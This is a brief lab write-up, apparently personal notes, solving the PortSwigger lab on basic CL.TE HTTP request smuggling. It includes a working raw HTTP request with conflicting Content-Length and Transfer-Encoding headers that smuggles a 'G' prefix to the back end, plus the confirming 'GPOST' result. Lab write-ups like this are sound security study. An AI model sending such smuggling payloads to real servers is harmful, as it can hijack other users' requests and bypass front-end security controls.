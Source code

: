 https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

CL.TE vulnerability

**Objective**: Smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

```
POST / HTTP/1.1
Host: 0af8004d04a771ff80b7b734006e004c.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

This request causes the front-end to use the CL as the primary header while the back end expects another chunck to arrive.
![[Pasted image 20250818114654.png]]
Used Burp repeater to send multiple requests and some of the responses said: `Unrecognized method GPOST` confirming that I managed to smuggle a request with the `G`

![[Pasted image 20250818004152.png]]

[Explained](https://www.youtube.com/watch?v=4S5fkKJ4SM4&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=1&ab_channel=JarnoTimmermans)


